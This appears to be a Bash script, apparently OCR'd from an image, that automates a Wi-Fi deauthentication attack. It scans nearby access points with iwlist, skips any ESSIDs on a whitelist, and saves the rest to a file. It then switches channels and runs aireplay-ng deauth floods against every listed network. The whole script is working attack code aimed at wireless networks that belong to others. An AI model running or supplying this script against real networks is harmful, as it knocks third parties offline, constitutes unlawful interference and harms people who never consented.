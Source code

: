 
function scan_area {
    if iwlist $W_INT scanning |
        while IFS= read -r line; do
            [[ "$line" =~ Address ]] && bssid=${line##*ss: }
            [[ "$line" =~ \(Channel ]] && { channel=${line##*nel }; channel=${channel:0:$((${#channel}-1))}; }
            [[ "$line" =~ ESSID ]] && {
                essid=${line##*ID:}
                #array_contains_element $WHITE_LIST $essid == 0 && echo "${bssid};${channel};${essid}"
                found=0
                for element in "${WHITE_LIST[@]}"; do    
                    element=$( echo "${element}" | sed -e 's/^ *//' -e 's/ *$//' );
                    if [[ $element == $essid ]]; then
                        found=1
                        break
                    fi
                done
                if [[ $found -eq 0 ]]; then
                    echo "${bssid};${channel};${essid}"
                fi
            }     
        done > ${NAME}_out.txt ; 
    then 
        echo "Something went wrong, retrying"
        sleep 5
        scan_area
    fi
}

# $1 -> ESSID
# $2 -> BSSID
# $3 -> CHANNEL
function deauth {
    if [[ "$channel" =~ $re ]]; then
        echo -e ${PROMPT}DeAuth for: ${RED} "$1" ${NC} with BSSID: "$2" @ ${GREEN}Channel "$3" ${NC}
        sleep 3
        iwconfig $W_INT channel "$3"
        aireplay-ng -0 $DE_AUTH_NUMBER -a "$2" $W_INT 
    fi
}

function read_file_and_deauth {  
    warn_before
    # Read the file, line by line and de-auth each MAC 
    while read -r line
    do
        bssid=`echo $line | awk -F";" '{print $1}'`
        channel=`echo $line | awk -F";" '{print $2}'`
        essid=`echo $line | awk -F";" '{print $3}'`
        deauth "$essid" "$bssid" "$channel"
    done < ${NAME}_out.txt
}
